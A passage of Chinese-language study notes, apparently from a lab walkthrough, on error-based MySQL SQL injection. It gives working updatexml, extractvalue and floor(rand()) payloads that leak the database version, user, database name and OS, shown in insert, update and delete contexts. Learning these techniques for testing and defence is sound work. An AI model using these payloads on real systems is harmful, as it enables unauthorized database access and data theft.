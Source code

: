然后使用updatexml进行报错注入

```
' or updatexml(0,concat('~',version(),'~'),0) or '		查询数据库版本
' or updatexml(0,concat('~',user(),'~'),0) or '			查询用户
' or updatexml(0,concat('~',database(),'~'),0) or '		查询数据库
字符型注意 将前后的 ' 闭合，使用 or或and连接
```

<img src="https://s2.loli.net/2022/11/25/1W4iATn8bmrwSVc.png" alt="image-20221113142848230" style="zoom: 33%;" />



#### 使用extractvalue（）

先抓包，

然后写入语句   0x7e 代表 ~

```
' or extractvalue(0,(concat("~",version(),"~"))) or '
' or extractvalue(0,(concat("~",user(),"~"))) or '
' or extractvalue(0,(concat("~",database(),"~"))) or '
' or extractvalue(0,(concat("~",@@version_compile_os,"~"))) or '
```

<img src="https://s2.loli.net/2022/11/25/k2vjOzKXmiVJL6t.png" alt="image-20221113143226334" style="zoom:33%;" />

<img src="https://s2.loli.net/2022/11/25/JwfHWyLDcgaz61u.png" alt="image-20221113143330551" style="zoom:33%;" />

与updatexml类似



#### 使用floor

```
' or (select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e)))
from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) or ' 
```

<img src="https://s2.loli.net/2022/11/25/eEipvbyQnatCsWI.png" alt="image-20221113143954097" style="zoom: 50%;" />



### 2、update

```
'or updatexml(1,concat(0x7e,database(),0x7e),0) or'
```

原理类似



### 3、delete

<img src="https://s2.loli.net/2022/11/25/agOqpu1FC6VRTED.png" alt="image-20221113144903429" style="zoom:33%;" />
